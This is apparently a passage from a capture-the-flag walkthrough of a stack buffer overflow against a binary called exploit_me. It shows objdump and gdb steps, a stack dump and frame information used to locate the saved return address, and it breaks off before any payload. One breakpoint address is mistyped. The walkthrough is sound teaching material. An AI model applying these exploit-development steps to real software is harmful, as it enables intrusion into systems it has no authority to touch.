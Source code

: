 From the objdump output we must get the address just before leaving the main section.
```
08048464 <main>:
[...]
80484d2:	c9                   	leave

```

With this address in hand we can start the exploit with `gdb`:
```bash
$> gdb ./exploit_me
```

Set the program argument like this:
```
(gdb) set args "AAAAAAAAAAAAAAA"
```

We set a breakpoint in gdb to stop the execution at the end of main section
```
(gdb) break *Ox80484d2
```

To make our input string we will use two major commands:

- display top stack with:
```
(gdb) x/64wx $esp
0xbffff610:	0xbffff620	0xbffff889	0x00000001	0xb7ec3c49
0xbffff620:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff630:	0xbf004141	0xb7fdd000	0x00000000	0xb7e5ec73
0xbffff640:	0x08048241	0x00000000	0x00ca0000	0x00000001
0xbffff650:	0xbffff874	0x0000002f	0xbffff6ac	0xb7fd0ff4
0xbffff660:	0x08048440	0x080496e8	0x00000002	0x080482dd
0xbffff670:	0xb7fd13e4	0x0000000d	0x080496e8	0x08048461
0xbffff680:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff690:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
0xbffff6a0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
0xbffff6b0:	0x00000002	0xbffff744	0xbffff750	0xb7fdc858
0xbffff6c0:	0x00000000	0xbffff71c	0xbffff750	0x00000000
0xbffff6d0:	0x0804820c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff6e0:	0x00000000	0x9e06e153	0xa942a543	0x00000000
0xbffff6f0:	0x00000000	0x00000000	0x00000002	0x08048340
0xbffff700:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
```
Note: (0x41 = 'A') We can see our input at adress 0xbffff620.
- Display frame's infos
```
(gdb) info frame
Stack level 0, frame at 0xbffff6b0:
 eip = 0x8048436 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff6a8, args:
 Locals at 0xbffff6a8, Previous frame's sp is 0xbffff6b0
 Saved registers:
  ebp at 0xbffff6a8, eip at 0xbffff6ac
```

